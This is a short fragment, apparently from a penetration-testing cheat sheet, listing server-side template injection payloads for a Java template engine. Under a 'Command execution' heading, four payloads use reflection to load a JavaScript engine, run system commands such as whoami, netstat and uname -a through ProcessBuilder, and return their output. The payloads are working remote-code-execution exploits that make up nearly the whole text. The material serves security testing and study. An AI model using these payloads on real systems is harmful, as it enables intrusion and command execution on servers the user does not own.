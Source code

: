 {{ request }} would return a request object like com.

[...].context.TemplateContextRequest@23548206
```

### Command execution
```
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```
